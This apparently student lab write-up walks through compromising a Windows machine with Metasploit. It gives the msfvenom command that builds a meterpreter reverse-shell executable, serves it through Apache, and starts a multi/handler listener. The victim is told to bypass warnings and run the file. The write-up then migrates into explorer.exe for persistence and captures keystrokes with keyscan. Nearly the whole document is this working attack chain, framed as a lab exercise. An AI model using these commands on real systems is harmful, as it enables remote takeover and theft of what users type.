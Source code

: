 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
```
Tested By : THILAKESWARAN KP
Reg. no: 212223230232
```

Find the attackers ip address using ifconfig
## OUTPUT:
![img01](https://github.com/user-attachments/assets/48184a16-ab3e-44fe-8b73-be02546358c1)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![img02](https://github.com/user-attachments/assets/96704f06-9b23-454b-b5f4-99890965686f)




copy the fun.exe into the apache /var/www/html folder
![img03](https://github.com/user-attachments/assets/6b6cb525-f9eb-4162-8080-bf518aef7a16)


Start apache server
sudo systemctl apache2 start

![img04](https://github.com/user-attachments/assets/c6d7a0c3-20a9-4f97-aa93-2340ae6618dc)



Check the status of apache2
![img05](https://github.com/user-attachments/assets/ab3a063a-5f1c-4634-9666-21a2c4df1ca4)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![img06](https://github.com/user-attachments/assets/9d2930e9-2ca2-4f41-a12d-f6bb464eeba7)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![img07](https://github.com/user-attachments/assets/a6d9de9f-0192-4578-912c-4f861fe8aa4a)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![img08](https://github.com/user-attachments/assets/75c32eb4-7e41-4099-b807-0c216ab6f81f)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![img09](https://github.com/user-attachments/assets/bc0ae88a-5538-4752-9c80-3841d56107d1)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![img010](https://github.com/user-attachments/assets/22a7c2bf-649f-4651-ac16-793e7f4307fc)



keyscan_dump	Shows the keystrokes captured so far
![img011](https://github.com/user-attachments/assets/a8cfb90f-080e-490f-b546-b42be0d318f8)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
